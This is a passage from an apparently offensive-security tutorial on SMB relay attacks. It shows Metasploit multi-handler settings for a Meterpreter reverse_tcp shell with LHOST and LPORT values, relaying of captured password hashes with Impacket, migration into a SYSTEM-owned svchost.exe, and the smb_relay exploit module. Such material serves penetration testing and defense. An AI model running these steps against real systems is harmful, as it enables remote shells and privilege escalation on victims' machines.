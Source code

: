 `set payload windows/meterpreter/reverse_tcp`

`set LHOST` `192.168``.``1.171`

`set LPORT` `5555`

`exploit`

![Metasploit - Multi Handler Module for SMB Relay](https://pentestlab.files.wordpress.com/2017/12/metasploit-multi-handler-module-for-smb-relay.png?w=760)

Metasploit – Multi Handler Module

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![Impacket - SMB Relay Attack](https://pentestlab.files.wordpress.com/2017/12/impacket-smb-relay-attack.png?w=760)

Impacket – SMB Relay Attack

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

![Meterpreter - List Running Processes](https://pentestlab.files.wordpress.com/2017/12/meterpreter-list-running-processes.png?w=760)

Meterpreter – List Running Processes

The migrate command and the process ID needs to be used.

![Meterpreter - Process Migration](https://pentestlab.files.wordpress.com/2017/12/meterpreter-process-migration.png?w=760)

Meterpreter – Process Migration

In this example the process 1600 corresponds to svchost.exe process which is running with SYSTEM privileges.

![Meterpreter - List of Processes for Migrate](https://pentestlab.files.wordpress.com/2017/12/meterpreter-list-of-processes-for-migrate.png?w=760)

Meterpreter – List of Processes for Migration

Running the **getuid** from a Meterpreter console will obtain the current **UID** which is now SYSTEM.

![Meterpreter - Retrieve Current UID](https://pentestlab.files.wordpress.com/2017/12/meterpreter-retrieve-current-uid.png?w=760)

Meterpreter – Retrieve Current UID

The same attack can be also implemented by Metasploit framework.

1

2

3

4

`exploit/windows/smb/smb_relay`

`set payload windows/meterpreter/reverse_tcp`

